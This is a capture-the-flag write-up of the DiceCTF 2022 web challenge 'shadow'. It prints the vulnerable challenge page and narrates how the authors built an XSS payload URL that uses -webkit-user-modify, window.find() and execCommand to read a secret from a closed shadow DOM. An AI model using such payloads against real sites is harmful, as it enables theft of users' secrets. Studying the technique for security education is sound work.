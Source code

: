 ## DiceCTF 2022

**Challenge name:** shadow\
**Author**: arxenix\
**Description:** I found a totally secure way to insert secrets into a webpage\
**URL:** `https://shadow.mc.ax/`\
**Solves:** 0\
**Hints:**
- non-standard css properties might help you
- it sure would be nice if the _user_ could _modify_ stuff inside the shadow dom

**CSP:**
`default-src 'none'; base-uri 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval'; frame-ancestors 'none';`

**Source Code:**
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8" />
<title>shadow</title>
</head>
<body>
<h3 id="title">store your secrets here:</h3>
<div id="vault"></div>
<div id="xss"></div>
<script>
// the admin has the flag set in localStorage["secret"]
let secret = localStorage.getItem("secret") ?? "dice{not_real_flag}"
let shadow = window.vault.attachShadow({ mode: "closed" });
let div = document.createElement("div");
div.innerHTML = `
<p>steal me :)</p>
<!-- secret: ${secret} -->
`;
let params = new URL(document.location).searchParams;
let x = params.get("x");
let y = params.get("y");
div.style = y;
shadow.appendChild(div);
secret = null;
localStorage.removeItem("secret");
shadow = null;
div = null;
// free XSS
window.xss.innerHTML = x;
</script>
</body>
</html>
```
---

The objective is to steal the secret which it's inside a closed [Shadow](https://developer.mozilla.org/en-US/docs/Web/Web_Components/Using_shadow_DOM) DOM and all document/variable references are set to null before our XSS.\
`y` parameter set our custom style to the shadow element\
`x` parameter is just classic XSS via innerHTML\

**Baby steps**
At first we tried anything we thought of like\
`document.body.outerHTML` doesn't include the shadow\
`vault.children` is empty\
`vault.attachShadow({mode:'open'})` Failed to execute 'attachShadow' on 'Element': Shadow root cannot be created on a host which already hosts a shadow tree.\
`document.designMode='on'` doesn't change shadow\
`vault.contentEditable='true'` nope\
`Embed inside an iframe with sandbox attribute` blocked because of CSP

**Second Hint**\
After a lot of struggle we couldn't find anything useful but all changed after releasing the second hint, (it sure would be nice if the _user_ could _modify_ stuff inside the shadow dom) from the first sight I noticed about two italic words (_user_  _modify_) and I knew it's mentioning non-standard [user-modify](https://developer.mozilla.org/en-US/docs/Web/CSS/user-modify) CSS property, From MDN: `It was originally planned to determine whether or not the content of an element can be edited by a user.`\
It's basically like `document.designMode='on'` now deprecated but chrome still support it via `-webkit-user-modify`, now with this old feature we can edit contents of the shadow element with user gesture and not javascript, `https://shadow.mc.ax/?y=-webkit-user-modify:+read-write`.

**Deprecated feature strikes again**\
After some time we couldn't find a way how this is useful in our case since JS can't access it yet, later [parrot](https://twitter.com/parrot409) found about [document.executeCommand](https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand) from MDN:
`When an HTML element has contenteditable set to true, the document.execCommand() method is made available. This lets you run commands to manipulate the contents of the editable region. Most commands affect the document's selection by, for example, applying a style to the text (bold, italics, etc), while others insert new elements (like adding a link) or affect an entire line (indenting). When using contentEditable, calling execCommand() will affect the currently active editable element.`

One of execCommand is **insertHTML** description: `Inserts an HTML string at the insertion point (deletes selection). Requires a valid HTML string as a value argument.`\
So in our case if we run `setInterval(()=>(document.execCommand("insertHTML", false, "<img src=1 onerror=alert()>"),1000)` then click on the `steal me :)` text on the document it will insert the img tag and our code will execute inside the shadow, because our shadow now considered as contentEditable thus execCommand can work on it. 

**Not so fast**\
The time was `22:45` and only an 1:15 minutes was remaining, execCommand will only work on selected/focused elements which is contentEditable or in designMode we tried everything some of our failed attempts:\
Focus using element id and hash `https://shadow.mc.ax/#vault`\
Scroll to text fragment `https://shadow.mc.ax/#:~:text=steal%20me%20%3A)`\
vault.click()\
vault.focus()\
And nothing worked now time is `23:44` (16 minutes remaining) and parrot found the way to focus on the element, again non-standard feature [window.find()](https://developer.mozilla.org/en-US/docs/Web/API/Window/find) `The Window.find() method finds a string in a window sequentially.` strangely find() worked on texts inside the shadow and automatically selects it, by running `find('steal me')` it will select the contents of the shadow now we can run execCommand on it.

**Rush minutes and panic**\
Now only 10 minutes left and we have everything ready, we set style to `-webkit-user-modify:read-write` using `find('steal me')` select the shadow dom then finally with execCommand `document.execCommand('insertHTML',false,'<img src=1 onerror=console.log(this.parentElement.outerHTML)')>` we can get the secret but out of no where `this.parentElement` returned null `Cannot read properties of null (reading 'outerHTML')`

Only 4 minutes left and we are very very close to solution I didn't knew why img tag behaves like this and this.parenElement is null everything looks perfect but no idea, I thought maybe img is an inline element and it should be standalone so I used `<svg onload>` luckily and strangely it worked now putting it all together
`https://shadow.mc.ax/?y=-webkit-user-modify:+read-write&x=<img+src=x+onerror="find('steal me');document.execCommand('insertHTML',false,'<svg/onload=console.log(this.parentElement.outerHTML)>')">`
we got the flag `dice{sh4d0wd0m_1s_n0t_4_s3cUr1ty_f34tuRe}`but will leave you with this image 

![](x.png)

We missed sending the flag by 30 seconds which is the saddest thing to happen in a ctf, but right after the ctf ended diceCTF posted this: 
`We also still have some unsolved but really awesome challenges, pwn/nightmare, pwn/road-to-failure, web/shadow. It would be awesome to see these challenges solved and to incentivize this we are offering $50 for the first solver of each challenge.`
We just sent a message to the admins sent our solution and claimed the prize, if we were able to submit in time this reward wouldn't happen. sometimes you never know what is good for you.

Thanks for reading\
[Renwa](https://twitter.com/RenwaX23) && [parrot](https://twitter.com/parrot409)
